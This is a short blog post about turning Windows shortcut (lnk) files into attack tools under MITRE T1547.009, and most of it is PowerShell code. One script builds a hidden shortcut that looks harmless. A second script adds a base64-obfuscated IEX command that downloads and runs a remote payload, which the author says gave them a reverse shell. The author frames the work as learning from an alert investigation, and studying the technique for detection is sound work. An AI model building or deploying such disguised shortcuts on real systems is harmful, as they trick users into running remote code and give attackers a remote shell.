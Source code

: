 ```yaml
---
layout: post
title: Weaponzing Shortcut Modification
subtitle: Exploring T1547.009 
cover-img: /assets/img/honk.png
thumbnail-img: /assets/img/shortcut.png
share-img: /assets/img/shortcut.png
tags: [PoC, shortcut]
---
```


The other day I was investigating an alert for what was suspected to be a malicious lnk file. I had not really seen many of these in the wild, so I decided to take a bit of extra time to see what an true positive might look like. I found some useful PoC resources to help me create my own attack.

The original Powershell script that I modified can be seen below. I pulled it directly from the link to [v3ded's](https://v3ded.github.io/) post included in the resources section.

~~~
$path                      = "$([Environment]::GetFolderPath('Desktop'))\FakeText.lnk"
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)

$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"

$shortcut.TargetPath       = "cmd.exe"
$shortcut.Arguments        = "/c calc.exe"
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey           = "CTRL+C"
$shortcut.Description      = "Nope, not malicious"

$shortcut.WindowStyle      = 7
                           # 7 = Minimized window
                           # 3 = Maximized window
                           # 1 = Normal    window
$shortcut.Save()

(Get-Item $path).Attributes += 'Hidden' # Optional if we want to make the link invisible (prevent user clicks)
~~~

Branching from this, I decided to add an IEX statement to download a payload hosted on a remote server. I had it pull and execute shellcode to give me a reverse shell.

~~~
$path = "$([Environment]::GetFolderPath('Desktop'))\RealText.lnk"
$wshell = New-Object -ComObject Wscript.Shell
$shortcut = $wshell.CreateShortcut($path)
$cmd = [System.Text.Encoding]::ascii.GetString([System.Convert]::FromBase64String('SUVYICgobmV3LW9iamVjdCBuZXQud2ViY2xpZW50KS5kb3dubG9hZHN0cmluZygnaHR0cDovLzAuMC4wLjA6ODAwMC9maWxlLnR4dCcpKQ=='))
$shortcut.IconLocation = "C:\Windows\System32\shell32.dll,70"
$shortcut.TargetPath = "powershell.exe"
$shortcut.Arguments = " -c $cmd"
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey = "CTRL+C"
$shortcut.Description = "I'm a dolphin, not a virus"
$shortcut.WindowStyle      = 7
$shortcut.Save()
(Get-Item $path).Attributes += 'Hidden'
~~~


**Resources**

| Type | Link |
| :------ | :--- |
| PoC | [https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence) |
| PoC | [https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-ole-+-lnk](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-ole-+-lnk) |

